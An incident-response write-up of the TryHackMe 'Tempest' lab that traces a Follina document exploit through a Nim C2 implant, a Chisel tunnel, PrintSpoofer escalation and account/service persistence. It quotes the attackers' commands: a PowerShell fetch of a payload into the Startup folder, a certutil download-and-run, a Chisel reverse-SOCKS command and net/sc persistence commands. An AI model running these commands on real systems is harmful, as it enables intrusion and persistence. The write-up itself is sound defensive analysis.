# Investigation 02: Full Attack Chain Investigation — Tempest

**Room:** TryHackMe — Tempest &nbsp;|&nbsp; **Role:** Incident Responder &nbsp;|&nbsp; **Analyst:** Hai Le &nbsp;|&nbsp; **Framework:** NIST SP 800-61 Incident Handling

## Executive Summary

User `benimaru` on host `TEMPEST` opened a malicious Word document downloaded via Chrome, which exploited **CVE-2022-30190 ("Follina")** to gain code execution without macros or a malicious download prompt. From there the attacker established Startup-folder persistence, dropped a custom Nim-based C2 implant, pivoted through a Chisel SOCKS tunnel to reach WinRM, escalated to SYSTEM via PrintSpoofer abusing the Print Spooler service, and finished by creating two new local accounts and two redundant persistence services. The credential that made the WinRM lateral-access thread possible in the first place was sitting in plaintext in a personal automation script on the user's own desktop. Every hop from document-open to SYSTEM persistence is independently confirmed via Sysmon process telemetry, Windows Security events, and network capture — findings mapped to NIST SP 800-61 phases and MITRE ATT&CK throughout.

## Tools Used
- EvtxECmd — Sysmon/Security event log parsing to CSV
- Timeline Explorer — CSV review, filtering, correlation across log sources
- SysmonView — process-tree and session graph visualization
- Wireshark — HTTP object review, Follow TCP Stream
- CyberChef — Base64 decoding
- VirusTotal — file/hash/URL/IP reputation and static analysis
- AbuseIPDB — IP reputation cross-check
- PowerShell `Get-FileHash` — artifact hash verification

## Timeline

| Time (UTC, 2022-06-20) | Event |
|---|---|
| 17:12:24 | benimaru's Explorer session starts (baseline logon) |
| 17:12:58 | `free_magicules.doc` downloaded via Chrome (Zone.Identifier/MOTW applied) |
| 17:13:12 | Document opened in WINWORD.EXE |
| 17:13:35.180 | `msdt.exe` fires Follina (CVE-2022-30190) |
| 17:13:37.822–17:13:40.339 | `update.zip` / `update.lnk` written to Startup folder |
| 17:15:10.547–17:15:14.129 | certutil downloads and executes `first.exe` |
| 17:15:14.129 | `first.exe` beacons to `resolvecyber.xyz:80` |
| 17:19:15.980 | WinRM session runs `whoami /priv` (origin later explained by the Chisel tunnel below) |
| 17:21:05.827–17:21:34.268 | `final.exe` downloaded and launched as SYSTEM via PrintSpoofer |
| 17:23:54.562–17:27:41.274 | Persistence Stage 2: account creation, service creation, group addition |
| 17:28:07–17:28:12 | `shion` logs in via WinRM and validates access |

*Note on evidence: this room supplies static, pre-captured artifacts (`capture.pcapng`, `sysmon.evtx`, `windows.evtx`) rather than a live/interactive environment — the investigation is artifact-based, not real-time triage.*

---

## 1. Preparation

Three static artifacts were provided for this incident: a full packet capture, a Sysmon event log, and a Windows Security event log. Hashes were verified before analysis via `Get-FileHash`:





Both event logs were parsed via EvtxECmd to CSV for filtering in Timeline Explorer:




Sysmon logs Process Create (Event ID 1), Network Connection (3), and File Create (11) among others, but this particular Sysmon configuration does **not** log Event ID 23 (File Delete) — a limitation that matters later when confirming a cleanup step. The evidence folder for this investigation is organized under `Incident Files/`, holding the raw artifacts alongside EvtxECmd's CSV and XML exports:



## 2. Detection & Analysis

### 2.1 Initial Access — Malicious Document
**MITRE ATT&CK:** `T1566` Phishing, `T1204.002` User Execution: Malicious File

`WINWORD.EXE` (PID 496) opens `C:\Users\benimaru\Downloads\free_magicules.doc` at 17:13:12, downloaded moments earlier via `chrome.exe`. SysmonView's session graph confirms the file carried a Mark-of-the-Web (`:Zone.Identifier` alternate data stream, created 17:12:58 alongside the main file) — meaning MOTW was present at download time:



MOTW being present but not preventing the exploit is worth stating plainly rather than glossing over — either the user dismissed a Protected View prompt, or this specific exploit chain doesn't trip MOTW-gated restrictions the way a macro would.

### 2.2 Execution — Follina (CVE-2022-30190)
**MITRE ATT&CK:** `T1203` Exploitation for Client Execution, `T1027` Obfuscated Files or Information

At 17:13:35.180, `msdt.exe` (PID 4868, child of WINWORD) is invoked via the `ms-msdt:` URI handler with the `PCWDiagnostic` troubleshooter — the classic Follina vector, no macros required:



The embedded Base64 payload decodes cleanly via CyberChef to:

```
$app=[Environment]::GetFolderPath('ApplicationData');cd "$app\Microsoft\Windows\Start Menu\Programs\Startup";
iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip;
Expand-Archive .\update.zip -DestinationPath .;
rm update.zip;
```



Worth flagging as its own finding: during this exploit's execution, SysmonView shows a sequence of paired `.cmdline`/`.dll` files written to `%LOCALAPPDATA%\Temp`, interleaved with `__PSScriptPolicyTest_*.ps1` files. That's the fingerprint of PowerShell dynamically compiling C# in-memory via `Add-Type`/`csc.exe` — likely an AMSI-evasion or script-policy-bypass step baked into the exploit chain, not something the room calls out directly but visible in the process tree.

The decoded script explicitly ends in `rm update.zip` — cleanup is confirmed at the script level. Whether it actually *executed* can't be independently verified, since this Sysmon configuration doesn't log Event ID 23 (File Delete). Stating both halves of that honestly matters more than picking one and moving on.

**Delivery infrastructure:** `phishteam.xyz` → `167.71.199.191` (DigitalOcean, Singapore, Apache/2.4.41). VirusTotal shows 0/92 with two low-confidence "Suspicious" heuristic flags and no named detections:



AbuseIPDB shows 20 reports against the hosting IP, but 0% abuse confidence, and every report is dated roughly three years after this campaign — unrelated WordPress/web-app scanning noise, assessed as IP churn on a shared cloud host, not attributable to this incident:



### 2.3 Persistence, Stage 1 — Startup Folder
**MITRE ATT&CK:** `T1547.001` Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder

`sdiagnhost.exe` (PID 2628) writes both `update.zip` and `update.lnk` into the Startup folder, 2.5 seconds apart:




Wireshark confirms the corresponding network fetch, including the actual zip contents visibly containing `update.lnk` as an internal archive entry:



### 2.4 Execution, Stage 2 — LOLBin Download
**MITRE ATT&CK:** `T1218.011` System Binary Proxy Execution *(certutil variant)*, `T1105` Ingress Tool Transfer

The Startup shortcut fires on the next interactive logon. Explorer spawns PowerShell (PID 9052), which runs:

```
certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe
```



`first.exe` (SHA256 `CE278CA2...FC7C3D7D8`) returned **no VirusTotal results at all** — never previously submitted to the platform, arguably a stronger evasion signal than a low detection count would be.

### 2.5 Command & Control
**MITRE ATT&CK:** `T1071.001` Application Layer Protocol: Web Protocols, `T1132.001` Data Encoding: Standard Encoding

Two **separate, independent** implant sessions were identified to the same C2 domain, `resolvecyber.xyz` → `167.71.222.162`, on two different ports — confirmed by filtering Sysmon Event ID 3 per-process rather than assuming one continuous beacon:

| Implant | Context | Port | Confirmed via |
|---|---|---|---|
| `first.exe` (PID 8948) | benimaru, Medium IL | **80** | Sole Event ID 3 record for this PID — no port-8080 activity |
| `final.exe` (PID 8264) | SYSTEM | **8080** | All Event ID 3 records for this PID are port 8080 — no port-80 activity |




The port-8080 channel is the fully-characterized beacon: `User-Agent: Nim httpclient/1.6.6` (a custom Nim implant), `Server: BaseHTTP/0.3 Python/2.7.18` (a bespoke Python C2 server) — a pull-based protocol where the server issues a command in the response body and the client reports results back via the `q=` query parameter:



Two beacon response bodies decoded cleanly enough to confirm attacker-issued commands rather than inferred activity — `whoami` and `whoami /priv`, both attributable to `final.exe`'s session given the port-8080 confirmation above:



### 2.6 Discovery & Credential Access
**MITRE ATT&CK:** `T1552.001` Unsecured Credentials: Credentials In Files, `T1087` Account Discovery

A beacon command instructs the implant to read `C:\Users\Benimaru\Desktop\automation.ps1`, decoded via CyberChef:

```
$user = "TEMPEST\benimaru"
$pass = "infernotempest"
## TODO: Automate easy tasks to hack working hours
```



That comment is worth quoting directly rather than summarizing — it's realistic human root cause, not attacker sophistication: a developer hardcoded their own credentials in a personal convenience script, and that single decision is what made the entire lateral/privileged-access thread below possible.

### 2.7 Lateral Pivot — Chisel Reverse Proxy
**MITRE ATT&CK:** `T1090` Proxy

`ch.exe` is downloaded via a second PowerShell child of `first.exe` and executed:

```
C:\Users\benimaru\Downloads\ch.exe client 167.71.199.191:8080 R:socks
```

VirusTotal identifies it cleanly as **Chisel**, a TCP tunneling tool (55/68 detections, `hacktool.chisel/hack`):



This establishes a reverse SOCKS5 proxy back to the same host that serves the initial document — dual-purpose delivery-and-tunnel infrastructure. This tunnel is the most plausible explanation for the WinRM session below, since no directly-traceable external Event ID 4624 logon-type-3 source was ever found for it — the connection most likely arrived *through* the tunnel rather than as a direct external connection.

### 2.8 Privilege Escalation — WinRM + PrintSpoofer
**MITRE ATT&CK:** `T1021.006` Remote Services: Windows Remote Management, `T1078` Valid Accounts, `T1068` Exploitation for Privilege Escalation

A WinRM session (`wsmprovhost.exe`, benimaru context) checks `whoami /priv` for `SeImpersonatePrivilege`, then downloads `final.exe`:




`spf.exe` — confirmed as **PrintSpoofer64.exe** via VirusTotal (56/70) — runs `spf.exe -c C:\ProgramData\final.exe`:




VirusTotal's static analysis confirms the exact mechanism: PrintSpoofer creates a named pipe, coerces the Print Spooler service into connecting to it, impersonates the resulting client token, and launches an arbitrary process as SYSTEM via `CreateProcessWithTokenW`. `final.exe`'s own process-creation event independently corroborates this — it is born directly under `NT AUTHORITY\SYSTEM` (LogonId `0x3E7`, the well-known SYSTEM session) at the exact instant of creation, not escalated gradually:



`final.exe` itself (SHA256 `03E1840A...7A74E6`) sits at only 11/70 on VirusTotal, with no named family — a notably weaker detection footprint than the public PrintSpoofer tool, consistent with a custom final-stage payload:



### 2.9 Persistence, Stage 2
**MITRE ATT&CK:** `T1136.001` Create Account: Local Account, `T1543.003` Create or Modify System Process: Windows Service, `T1098` Account Manipulation

All commands below run as SYSTEM, as direct children of `final.exe`. The full Executable Info command list gives the complete chronological order in one view:



Two genuine mistakes precede the first successful account creation, worth documenting rather than smoothing over:



| Time (UTC) | Command | Outcome |
|---|---|---|
| — | `net user shuna princess` | **FAIL** — missing `/add` |
| — | `net user /add shuna` | **FAIL** — missing password |
| 17:23:54.562 | `net user Administrator ch4ng3dpassword!` | Administrator password changed |
| 17:26:04.935 | `sc create TempestUpdate binpath= C:\ProgramData\final.exe start= auto` | service #1 created |
| 17:26:29.904 | `sc create TempestUpdate2 binpath= C:\ProgramData\final.exe start= auto` | service #2 created (redundant) |
| 17:26:38.438 | `sc qc TempestUpdate2` | attacker verifies own config |
| 17:27:19.098 | `net user /add shuna princess` | **SUCCESS** |
| 17:27:28.604 | `net user /add shion m4st3rch3f!` | **SUCCESS** |
| 17:27:41.274 | `net localgroup administrators /add shion` | shion → local Administrators |








The Windows Security log independently corroborates the account-management side of this: Event ID 4720 (account creation) ×2, 4724 (password set) ×3, 4732 (privileged group addition — `MemberSid` confirms specifically `shion`, not `shuna`):






All of these Security log events share `SubjectUserSid S-1-5-18` / `SubjectLogonId 0x3E7` — the well-known SYSTEM identity, consistent with the Sysmon-confirmed process lineage. Worth being precise about what that actually proves: `0x3E7` is shared by every SYSTEM-context process on the host, so it's *corroborating* evidence, not independent proof that these specific actions came from `final.exe`. The real proof-of-origin is the fully-confirmed Sysmon parent/child PID chain (`spf.exe` → `final.exe` → `net.exe`/`sc.exe`).

### 2.10 Post-Persistence Validation
**MITRE ATT&CK:** `T1078` Valid Accounts

At 17:28:07, `shion` logs on via a *new* WinRM session and runs `whoami` / `whoami /all` — confirming the persistence account was actually tested and reused, not just created and abandoned:




### 2.11 Investigative Dead Ends & Ruled-Out Leads

Documenting what *didn't* pan out matters as much as the confirmed chain — these were chased down, not assumed:

- **Event ID 1102 ("audit log was cleared")** appears once, but as Record #1 — the very first record in the entire `windows.evtx` export. Far more likely to be the lab VM's own provisioning artifact than attacker anti-forensic activity mid-intrusion. Excluded from the incident narrative on that basis.
- **Event ID 4625 — four failed Administrator logons**, all identical, all occurring *after* the Administrator password change:

  

  All four carry `SubStatus 0xC0000072` (`STATUS_ACCOUNT_DISABLED`), not a wrong-password failure. The built-in Administrator account ships disabled by default on modern Windows; changing its password doesn't enable it. This isn't brute-forcing — it's something (unidentified, no IP/workstation captured) repeatedly hitting a default control that held even after the credential was compromised. A concrete "compensating control worked" example worth keeping in the writeup rather than treating it as noise.
- **Event ID 5379/5382 — Credential Manager reads/writes (51 reads, 2 writes)** — initially flagged as a possible separate credential-harvesting vector (T1555.004). Investigation of the 5382 events shows `SchemaFriendlyName: NGC Local Account Logon Vault Resource Schema` with `ReturnCode 1168` (not found):

  

  This is routine Windows logon-provider behavior — every session logon probes for Windows Hello/PIN vault data regardless of whether it's configured (it isn't, here). Ruled out as benign rather than left as an open flag.
- **UtcTime ordering is unreliable throughout this Sysmon export.** Multiple child processes (`final.exe`'s beacon, `ch.exe`'s network connection, the PowerShell download of `ch.exe`) show UtcTime values earlier than their own parent's creation time. Process lineage (ParentProcessId/ParentProcessGuid) was used as the reliable ordering signal instead — worth stating as a general methodology note, confirmed independently across three separate instances in this dataset.
- **`first.exe` was requested twice** from `phishteam.xyz`, ~30 seconds apart — cause not determined, low investigative priority given everything else it doesn't change.
- **Event IDs 4697 and 4672 are entirely absent** from `windows.evtx`, confirmed via the full EvtxECmd Event ID inventory rather than a failed manual search. The host's audit policy did not include the relevant Object Access/Special Privilege subcategories — a real detection gap, since without Sysmon's own process-creation logging, the two `sc.exe create` events would have been invisible to the Security log entirely.

## 3. Containment, Eradication & Recovery

- **Isolate host TEMPEST** from the network immediately — SYSTEM-level compromise with an active SOCKS tunnel and two persistence services in place.
- **Reset the `infernotempest` credential** and any account it was reused on, and audit for the same password/pattern elsewhere in the environment — this single plaintext credential is the root cause of the entire lateral/privileged-access thread.
- **Disable and remove `shuna` and `shion`**, and reset the built-in Administrator password again (the attacker's `ch4ng3dpassword!` should not be trusted as clean even though the account itself was disabled).
- **Remove both persistence services** (`TempestUpdate`, `TempestUpdate2`) and delete `C:\ProgramData\final.exe`.
- **Block at the network egress**: `phishteam.xyz` (167.71.199.191) and `resolvecyber.xyz` (167.71.222.162).
- **Patch CVE-2022-30190** (Follina) or apply Microsoft's registry-based mitigation (disabling the MSDT URL protocol) across the fleet — this was the entire initial-access vector.

## 4. Post-Incident Activity

- **Submit IOCs** (hashes, domains, IPs below) to the organization's threat intel sharing process.
- **Enable Object Access auditing** so future incidents surface Event ID 4697 for service creation — this investigation only caught the persistence services via Sysmon; the Security log alone would have missed them entirely.
- **Review why `automation.ps1` was permitted to sit on a user desktop with plaintext credentials** — this is a process/awareness gap, not a technical control failure, and the fix is policy-level (credential storage standards, secrets management) rather than a single patch.

### Lessons Learned
- A default Windows control (the built-in Administrator account shipping disabled) held up even after the attacker had already changed its password — worth calling out as a working compensating control, not just a curiosity in the log.
- UtcTime alone is not a reliable ordering signal across this Sysmon export; parent/child process linkage is. Worth checking for on any investigation using this Sysmon configuration, not just this one.
- Chasing a lead to a benign conclusion (Credential Manager reads, the audit-log-clear event) is still useful analytical work — it closes an open question definitively instead of leaving it as an unresolved flag in the final report.
- Public/known offensive tools (PrintSpoofer, Chisel) get caught heavily by reputation engines; the attacker's own custom payloads (`first.exe`, `final.exe`) evade nearly all of them. Worth treating VirusTotal scores as a signal about tool provenance, not a verdict on danger.

---

## Indicators of Compromise (IOCs)

| Type | Value | Role / Verdict |
|---|---|---|
| Delivery domain | `phishteam.xyz` | Document host, LOLBin payload host — 0/92 VT |
| Delivery/tunnel IP | `167.71.199.191` | DigitalOcean, Singapore — also Chisel SOCKS server |
| C2 domain | `resolvecyber.xyz` | Two independent implant sessions (ports 80, 8080) |
| C2 IP | `167.71.222.162` | DigitalOcean |
| first.exe (SHA256) | `CE278CA2424A2023A4FE04067B0A32FBD3CA5599746C160949868FFC7FC3D7D8` | No VT submissions — never previously seen |
| spf.exe / PrintSpoofer64 (SHA256) | `8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D` | 56/70 VT — HackTool.PrintSpoofer |
| final.exe (SHA256) | `03E1840A24506AFC88AB5FF7F83D2B07B558B34FF42DD34DD93267FD2E7A74E6` | 11/70 VT — generic/unnamed |
| ch.exe / Chisel (SHA256) | `8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451` | 55/68 VT — HackTool.Chisel |
| Exposed plaintext credential | `TEMPEST\benimaru` / `infernotempest` | Recovered from `automation.ps1` |
| Persistence accounts | `shuna`, `shion` | `shion` added to local Administrators |
| Persistence services | `TempestUpdate`, `TempestUpdate2` | Both → `C:\ProgramData\final.exe`, auto-start |

## MITRE ATT&CK Mapping (Summary)

Each technique is tagged inline in section 2 next to the specific evidence that confirms it — this table is a consolidated view, not the primary source.

| Technique ID | Technique Name | Evidence | Section |
|---|---|---|---|
| T1566 / T1204.002 | Phishing / User Execution: Malicious File | Malicious .doc opened by benimaru | 2.1 |
| T1203 | Exploitation for Client Execution | CVE-2022-30190 (Follina) via msdt.exe | 2.2 |
| T1027 | Obfuscated Files or Information | In-memory C# compilation artifacts during exploit | 2.2 |
| T1547.001 | Boot or Logon Autostart Execution: Startup Folder | update.zip/update.lnk written to Startup | 2.3 |
| T1218.011 / T1105 | System Binary Proxy Execution / Ingress Tool Transfer | certutil downloads first.exe | 2.4 |
| T1071.001 / T1132.001 | Application Layer Protocol / Standard Encoding | Base64-over-HTTP C2 to resolvecyber.xyz | 2.5 |
| T1552.001 / T1087 | Credentials In Files / Account Discovery | automation.ps1 plaintext credentials | 2.6 |
| T1090 | Proxy | Chisel reverse SOCKS5 tunnel | 2.7 |
| T1021.006 / T1078 / T1068 | WinRM / Valid Accounts / Exploitation for Privilege Escalation | PrintSpoofer → SYSTEM | 2.8 |
| T1136.001 / T1543.003 / T1098 | Create Local Account / Create Service / Account Manipulation | shuna/shion accounts, TempestUpdate services | 2.9 |
| T1078 | Valid Accounts | shion WinRM validation logon | 2.10 |

## Scope & Impact

- 1 host compromised end-to-end, document-open to SYSTEM-level persistence, no gaps in the process lineage
- 1 plaintext credential (`infernotempest`) was the root-cause enabler for the entire lateral/privileged-access thread
- 2 new local accounts created, 1 (`shion`) escalated into the local Administrators group and validated via a live logon
- 2 redundant auto-start services installed for persistence, both pointing at the SYSTEM-context implant
- Built-in Administrator account had its password changed by the attacker, though a default Windows control (disabled-by-default) limited its immediate usability
- 2 independent C2 sessions maintained to the same backend infrastructure across the privilege-escalation boundary

## Verdict

Confirmed, complete compromise of host TEMPEST — a full attack chain from a no-macro document exploit through SYSTEM-level persistence, enabled at its critical junction by a developer's own hardcoded credential. The adversary combined a public N-day exploit (Follina), a custom Nim-based implant, a public tunneling tool (Chisel), and a public privilege-escalation tool (PrintSpoofer) with two bespoke final-stage payloads that evaded nearly all reputation-engine detection — consistent with a moderately resourced actor blending off-the-shelf tooling with custom implants rather than relying on either exclusively.
